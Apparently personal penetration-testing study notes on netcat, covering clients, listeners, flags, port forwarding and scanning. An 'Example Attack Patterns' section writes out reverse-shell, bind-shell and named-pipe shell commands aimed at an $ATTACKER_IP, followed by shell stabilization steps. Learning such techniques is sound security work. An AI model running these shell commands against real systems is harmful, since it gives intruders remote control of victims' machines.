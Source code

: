 # Using "netcat"

author:: Nathan Acks
date:: 2022-06-29

The netcat binary is *usually* `nc`, but some systems have it at `ncat` or `netcat` instead.

Note that the `-c` and `-e` flags are considered security risks (for obvious reasons!), and are disabled on some systems.

## Start a Client

```bash
nc $HOST $PORT
```

Some versions of netcat support a -e flag that hooks STDIN and STDOUT of an executable to the established network connection. So something like the following will establish a reverse shell:

```bash
nc -e /bin/bash $HOST $PORT
```

## Start a Server

```bash
nc -l -p $PORT $HOST
```

The $HOST specification here is optional; if left off, nc binds to 0.0.0.0.

Note that nc will exit once the first connection closes.

(According to the nc docs, it looks like `nc -l $HOST $PORT` should also work, but it doesn't. I think - though I haven't been able to verify - that what's happening here is that `-p` specifies the port to *listen* to, while the port following the $HOST specification is the port to *connect* to.)

A netcat server doesn't have to be used just for reverse shells. For example, you can also use it to catch web requests in conjunction with XSS or SQLi attacks.

* [XSS (Cross-Site Scripting) Attacks](xss-attacks.md)
* [SQL Injection](sql-injection.md)

## Useful Flags

* `-l` - listen for incoming connections (rather than make an outgoing connection)
* `-v` - verbose
* `-n` - skip DNS resolution (slightly faster, less noisy on the network)
* `-p` - specify the port to *listen* to
* `-u` - connect using UDP instead of TCP
* `-k` - keep listening even after client disconnects

## Example Attack Patterns

Example reverse shell:

* Attacker: `nc -lvnp $LISTENER_PORT`
* Target: `nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash`

Example bind shell:

* Attacker: `nc $TARGET_IP $LISTENER_PORT`
* Target: `nc -lvnp $LISTENER_PORT -e /bin/bash`

These are almost, but not quite, mirror images of each other.

The `-e` switch isn't available on many UNIX-like OSes. Working around this leads to the common named pipe pattern:

```bash
mkfifo /tmp/p; \
nc -lvnp $LISTENER_PORT < /tmp/p | \
	/bin/sh >/tmp/p 2>&1; \
rm /tmp/p
```

(Note that it's also possible to reverse the /bin/sh and nc portions of things; what important is that the named pipe lets us loop I/O between the two applications. See the discussion of msfvenom payloads for a detailed breakdown of this pattern.)

Initial netcat reverse shells (in particular web shells) are non-interactive.

### Shell "Stabilization"

Shell "stabilization" refers to the process of making a remote shell behave like a normal local shell - so, allowing interactive programs to work properly, ensuring that input is not echoed inappropriately, etc. In practice, this generally involves creating a *second* connection from within the "unstable" shell, and then using that (keeping the first connection around just so you can restart the "stabilized" shell if you accidentally exit/kill it).

A common method of stabilizing netcat shells is to use Python:

* Start an instance of bash connected to an actual PTY: `env TERM=xterm python -c 'import pty; pty.spawn("/bin/bash")'`
* Suspend the reverse shell.
* Use `stty raw -echo; fg` to switch to raw keycode transmission (so that things like arrow keys get pushed to our remote shell), turn off terminal echo (to prevent seeing commands twice), and foreground the reverse shell.

Note that the `stty` command can be canceled using `reset` (after closing the reverse shell). Since echo is turned off, typing this won't be visible. Trust the force!

The `rlwrap` package will handle almost all of this for you.

```bash
rlwrap -cAr nc -lvnp $PORT
```

Or just use socat!

NOTE that in *none* of these cases will the reverse shell pick up on your terminal size, so you'll need to manually specify it using `stty rows` and `stty cols`.

* [Using "socat"](socat.md)

## Port Forwarding

```bash
nc -lvnp $INCOMING_PORT -c "nc $TARGET_IP $TARGET_PORT"
```

## Other Uses

### Telnet Replacement

If you just have netcat connect to a service directly, it functions exactly like telnet.

### Port Scanning

With the `-z` option, netcat will attempt to connect to all TCP ports on the targets in a sequential fashion (if no ports are specified; otherwise just to the specified port), reporting which are open. It's like a simple, very slow version of Nmap!

Use `-w` to set the timeout in seconds.

Use `-u` to try connecting over UDP rather than TCP.

* [Using "nmap"](nmap.md)

### Port Forwarding

```bash
nc -lvkp $LOCAL_PORT -c "nc $REMOTE_IP $REMOTE_PORT"
```
